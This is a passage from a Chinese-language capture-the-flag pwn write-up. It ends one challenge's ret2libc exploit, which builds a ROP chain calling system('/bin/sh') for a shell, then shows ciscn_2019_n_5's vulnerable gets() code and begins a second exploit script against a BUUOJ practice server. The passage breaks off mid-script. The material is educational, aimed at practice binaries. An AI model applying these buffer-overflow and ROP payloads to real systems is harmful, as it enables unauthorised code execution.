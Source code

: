```python
print(hex(puts_addr))
libc = LibcSearcher('puts',puts_addr)
Offset = puts_addr - libc.dump('puts')
binsh = Offset+libc.dump('str_bin_sh')
system = Offset+libc.dump('system')
r.sendlineafter('Input your choice!\n','1')
payload = b'\x00'+b'a'*(offset-1)
payload=payload+p64(ret)
payload=payload+p64(pop_rdi)
payload=payload+p64(binsh)
payload=payload+p64(system)
r.sendlineafter('Input your Plaintext to be encrypted\n',payload)
 
r.interactive()
```

## ciscn_2019_n_5
 知识点：ret2libc或ret2shellcode

 ![alt text](image-14.png)

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char text[30]; // [rsp+0h] [rbp-20h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  puts("tell me your name");
  read(0, name, 0x64uLL);
  puts("wow~ nice name!");
  puts("What do you want to say to me?");
  gets(text);
  return 0;
}

```

 发现什么保护都没开，可以考虑ret2libc和ret2shellcode

 方法一：先用ret2libc，更熟悉这个一些
 发现没什么弯弯绕绕，就可以直接泄漏libc基址
 exp:
 ```python
from pwn import*
from LibcSearcher import*
r=remote('node5.buuoj.cn',27924)
elf=ELF('./1')
main = 0x0400636
pop_rdi = 0x00400713
ret = 0x04004c9 
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
r.sendlineafter('your name','aaa')
offset = 0x28
 ```